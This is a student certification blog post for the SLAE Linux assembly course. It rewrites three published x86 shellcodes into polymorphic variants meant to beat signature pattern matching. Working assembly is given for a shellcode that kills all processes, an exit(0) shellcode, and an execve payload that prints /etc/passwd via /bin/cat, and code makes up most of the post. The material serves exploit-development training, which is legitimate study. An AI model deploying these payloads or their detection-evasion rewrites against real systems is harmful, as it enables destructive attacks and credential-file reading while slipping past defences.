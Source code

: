 # SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 6
For the sixth assignment I need to solve the following tasks:
* Take up at least 3 shellcode from Shell-Storm and create polymorphic versions of them to beat pattern matchinng
* The polcymorphic versions cannot be larger 150% of the existing shellcode
* Bonus points for making it shorter in length than original

___

</br>

## Kill all linux processes shellcode

The first shellcode I want to use here is one which kills all processes in Linux and has 11 bytes. (http://shell-storm.org/shellcode/files/shellcode-212.php)
``` assembly
push byte 37
pop eax
push byte -1
pop ebx
push byte 9
pop ecx
int 0x80
```
My idea was to get rid of these push and pop instcutions. So for loading eax with 37 I just moved the value 37 in al. I used the same for replacing push byte 9 and pop ecx where I just moved 9 in cl. And for getting the -1 in ebx I just set ebx at the start to zero (with XOR) and decreasing it then by 1 to get the -1.
``` assembly
xor ebx, ebx
mov ecx, ebx
mul ebx
mov al, 37
dec ebx
mov cl, 9
int 0x80
```
So my polymorphic shellcode has 13 bytes which is compared to the original one with 11 bytes an increase of size of 20%. Theoretically the first 6 bytes can also be reduced so that the shelcode is only 7 bytes depending on the instructions / the contents of the registers before. But with the 13 bytes version we are on the safe side.

___

## Exit(0) shellcode

The second shellcode I want to change is an exit(0) shelcode with 8 bytes. (http://shell-storm.org/shellcode/files/shellcode-623.php)
``` assembly
xor eax, eax
mov al, 0x1
xor ebx, ebx
int 0x80
```
Because we need 0x1 in eax instead of a move instruction with 2 bytes we could use an inc eax which will only take 1 byte. Also we can change xor ebx, ebx to a mov instruction to change the instructions a little bit.
``` assembly
xor eax, eax
mov ebx, eax
inc eax
int 0x80
```
The changed shellcode has now a size of 7 bytes which is an decrease by nearly 15%.

Here you can see the programm running with the exit code:

![exit](images/exit.png)

___

## bin/cat /etc/passwd reader shellcode
The last shellcode is a reader of the passwd file (/etc/passwd) with the cat tool (
http://shell-storm.org/shellcode/files/shellcode-571.php). This shellcode has a size of 43 bytes. In this polymorphic version I want to play with some other machanisms and will not take a big look at the size.
So the original assembly instructions are the following:
``` assembly
xor    eax,eax
cdq    
push   edx
push   0x7461632f
push   0x6e69622f
mov    ebx,esp
push   edx
push   0x64777373
push   0x61702f2f
push   0x6374652f
mov    ecx,esp
mov    al,0xb
push   edx
push   ecx
push   ebx
mov    ecx,esp
int    0x80
```
Instead of getting zero to edx with the short instruction cdq I will xor edx with itself and to get eax to zero I will multiply it with edx. Instead of pushing the whole time edx to the stack which is zero I will push eax which is also zero. Also in the 2nd push of the string arguments which is /etc/passwd we'll instead use /etc//////passwd which should also work but is increasing the whole shellcode with a normal push by 5. Also I used for the push to the stack 3 times not the normall push but instead the manual writing to the stack which also makes the shellcode much longer. In the end I add increase eax by 1 and do a XOR operation with 0xa to set this register to 0xb which is execve. 
``` assembly
xor    edx,edx
mul    edx
push   eax
push   0x7461632f
push   0x6e69622f
mov    ebx,esp
push   eax
mov    dword [esp-8], 0x61702f2f
mov    dword [esp-4], 0x64777373
sub    esp, 8
push   0x2f2f2f2f
push   0x6374652f
mov    ecx,esp
push   eax
push   ecx
push   ebx
inc    eax
xor    al, 0xa
mov    ecx,esp
int    0x80
```
So in the end my changed shellcode has 59 bytes which is compared to the original shellcode with 43 bytes and increase of nearly 37%. 

Also it is still working corectly:

![catPasswd](images/catPasswd.png)

